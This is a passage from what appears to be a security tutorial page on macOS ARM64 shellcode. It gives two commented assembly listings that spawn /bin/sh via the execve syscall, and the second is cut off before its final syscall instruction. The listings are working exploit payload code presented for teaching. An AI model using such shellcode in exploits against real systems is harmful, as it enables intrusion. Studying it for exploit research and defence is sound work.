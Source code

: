 <details><summary>C code to test the shellcode</summary></details>

#### Shell

Taken from [**here**](https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/shell.s) and explained.

{{#tabs}}
{{#tab name="with adr"}}

```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
    adr  x0, sh_path  ; This is the address of "/bin/sh".
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```

{{#endtab}}

{{#tab name="with stack"}}

```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
    ; We are going to build the string "/bin/sh" and place it on the stack.

    mov  x1, #0x622F  ; Move the lower half of "/bi" into x1. 0x62 = 'b', 0x2F = '/'.
    movk x1, #0x6E69, lsl #16 ; Move the next half of "/bin" into x1, shifted left by 16. 0x6E = 'n', 0x69 = 'i'.
    movk x1, #0x732F, lsl #32 ; Move the first half of "/sh" into x1, shifted left by 32. 0x73 = 's', 0x2F = '/'.
    movk x1, #0x68, lsl #48   ; Move the last part of "/sh" into x1, shifted left by 48. 0x68 = 'h'.

    str  x1, [sp, #-8] ; Store the value of x1 (the "/bin/sh" string) at the location `sp - 8`.

    ; Prepare arguments for the execve syscall.

    mov  x1, #8       ; Set x1 to 8.
    sub  x0, sp, x1   ; Subtract x1 (8) from the stack pointer (sp) and store the result in x0. This is the address of "/bin/sh" string on the stack.
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.

    ; Make the syscall.

    mov  x16, #59     ; Move the execve syscall number (59) into x16.
```